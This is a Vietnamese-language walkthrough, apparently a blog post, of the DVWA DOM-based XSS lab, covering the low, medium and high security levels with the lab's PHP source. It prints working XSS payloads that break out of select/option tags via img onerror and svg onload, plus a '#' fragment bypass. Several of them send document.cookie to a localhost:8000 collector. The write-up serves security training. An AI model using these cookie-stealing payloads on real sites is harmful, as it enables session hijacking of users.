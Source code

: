 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS (DOM)
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
  - XSS
  - XSS DOM
---
```


# __XSS (DOM)__

_Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it._

_An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)._

---

## __Objective__

Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_d/source/low.php"
<?php

# No protections, anything goes

?> 
```

### __Analysis__

Challenge này thì đơn giản rồi, không có ràng buộc về source code. Bạn chỉ cần ghi nhớ muốn lấy cookie thì dùng `document.cookie`. Và tùy thuộc suy nghĩ của bạn về vấn đề mà có hướng attack đúng đắn.

> Thay vì ta xuất thông báo cookie (`alert(document.cookie)`) trên trình duyệt. Thì nên tạo 1 website nào đó lưu yêu cầu lại. Vì ngữ cảnh ta đặt ra là cho 1 victim "click" và ta sẽ ngồi ở nơi nào đó "quan sát"

### __Exploition__

Ta có nhiều cách khai thác và dưới đây là 2 cách khai thác challenge này.

![](image.png)

![](image-1.png)

![document.location="http://localhost:8000/?abc="+document.cookie](image-2.png)

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/xss_d/source/medium.php"
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

### __Analysis__

Bài này họ filter đầu vào bằng hàm stripos()

![Mô tả hàm stripos()](image-3.png)

Quan trọng hơn, nếu ở ngôn ngữ lập trình khác thì có thể vị trí xuất hiện là 0 tức false -> dẫn đến điều kiện if thứ 2 sai -> ta tiêm được `<script>....`. Nhưng với php thì việc trả về 0 thì không đồng nghĩa với false. Xem hình bên dưới

![](image-4.png)

Đáng tiếc thay, bài này dùng double encode khum được :). Ta sẽ thay đổi chiến thuật. Nhìn hình sau để đoán chiến thuật nào :3

![](image-5.png)

Roài, tiếp theo ta xem xét tiếp cấu tạo trang web

![](image-6.png)

Với hình ảnh trên, ta thấy rằng các ngôn ngữ là các thẻ option và nằm trong thẻ select. Do đó để có thẻ <img\>. Ta cấn thoát thẻ <select\> và thẻ <option\> trước.

> Dùng payload: `"></option></select><img src="image.gif" onerror="alert(1)">`

### __Exploition__

Như đã phân tích phía trên, bây giờ ta tiến hành khai thác thôi.

![](image-7.png)

> Dùng payload: `"></option></select><img src="image.gif" onerror="document.location='http://localhost:8000/?abc='+document.cookie">`

Hoặc ta có thể dùng thuộc tính  onload của thẻ <svg\>

> Dùng payload: `"></option></select><svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>`

---

## __Security Level: High__

Source code

```php title="vulnerabilities/xss_d/source/high.php"
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?> 
```

### __Analysis__

Ta thấy mức độ này họ dùng whitelist filter ở phía server, nhưng cơ bản việc XSS DOM là việc tiêm payload ở client, do đó ta sẽ chặn gửi payload của mình lên server bằng "#". Và đây là mã tiêm

> English#<script\>document.location='http://localhost:8000/?abc='+document.cookie</script\>

### __Exploition__

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/xss_d/source/impossible.php"
<?php

# Don't need to do anything, protection handled on the client side

?> 
```

### __Analysis__

---

## __What we learned__

- XSS DOM in image, svg

## __More Information__

- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/attacks/DOM_Based_XSS
- https://www.acunetix.com/blog/articles/dom-xss-explained/